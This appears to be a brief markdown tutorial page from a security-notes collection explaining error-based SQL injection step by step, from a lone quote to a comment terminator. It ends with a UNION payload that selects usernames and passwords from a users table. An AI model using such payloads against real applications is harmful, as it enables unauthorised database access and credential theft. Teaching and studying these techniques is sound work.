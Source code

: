 # Error-based SQLi

[Go back](../sql.md)

<div class="row row-cols-md-2"><div>

Error-based is the simplest SQL injection. It's an injection in which DBMS errors are displayed to the user.

The hacker can easily use the output to tweak the payload until they get what they want.
</div><div>
</div></div>

<hr class="sep-both">

## Error-based SQLi Explained

<div class="row row-cols-md-2"><div>

1. We usually start with injecting a quote `'`:

```sql!
Select name,desc from product where name LIKE '%'%'
```

☠️ The query fails because of the syntax is invalid, due to the trailing "`%'`", but we now know that an injection is possible.

<br>

2. We then comment out the rest of the query using `' --`.

```sql!
Select name,desc from product where name LIKE '%' --%'
```

☠️ The code above may not work in some DBMS, because they want a space between the start of a comment, and the comment itself.
</div><div>

3. We add a space giving us the payload `' -- -`

```sql!
Select name,desc from product where name LIKE '%' -- -%'
```

✅ Between `'` and `-- -`, we can write **any** SQL code, through the syntax of the final query must be valid ✌️.

For instance, we could use `xxx' UNION Select username,password FROM users -- -` to get the list of usernames/passwords.

```sql!
Select name,desc from product where name LIKE '%' UNION Select username,password FROM users -- -%'
```

Refers to union-based payloads.
</div></div>
